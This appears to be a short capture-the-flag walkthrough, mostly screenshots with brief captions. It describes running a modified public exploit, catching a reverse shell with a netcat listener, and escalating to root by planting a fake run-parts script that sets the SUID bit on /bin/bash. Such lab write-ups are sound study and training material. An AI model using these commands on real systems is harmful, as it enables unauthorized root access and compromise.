







Creating a user:


Now we can find an exploit:


Now modifying the exploit:


Create a web server:
```
python3 -m uploadserver 21
```
Run it:
```
python3 49383.py
```

Listener:
```
sudo rlwrap nc -nlvp 2222
```
Using penelope instead of nc:

We are chloe.




Now we can create our own run-parts:
```
cd /usr/local/bin
echo '#!/bin/bash' > run-parts
echo 'chmod +s /bin/bash' >> run-parts
chmod 777 run-parts
```

Now we get a root shell after running `/bin/bash -p`

